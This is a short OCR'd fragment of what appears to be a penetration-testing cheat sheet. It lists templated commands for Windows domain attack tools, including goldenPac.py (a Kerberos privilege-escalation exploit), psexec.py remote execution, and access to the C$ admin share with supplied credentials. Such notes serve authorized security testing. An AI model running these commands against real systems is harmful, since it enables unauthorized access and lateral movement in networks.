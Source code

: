 mssqlclient.py -p ^PORT^ ^USER^:^PASSWORD^@^IP^  
  
  
  
goldenPac.py DOMAIN/USER:PASSWORD@HOST  
  
  
rpcclient -U ^USER^ ^HOST^  
lookupnames ^USER^  
  
  
smbclient -k -u ^USER^ \\\\^HOST^\\c$  
  
  
  
kinit -V ^USER^@^HOST^  
  
psexec.py ^DOMAIN^/^USER^:^PASSWORD^@^HOST^  
cmd line  
  
  
  
smbmap.py -u ^USER^ -p ^PASSWORD^ -H ^HOST^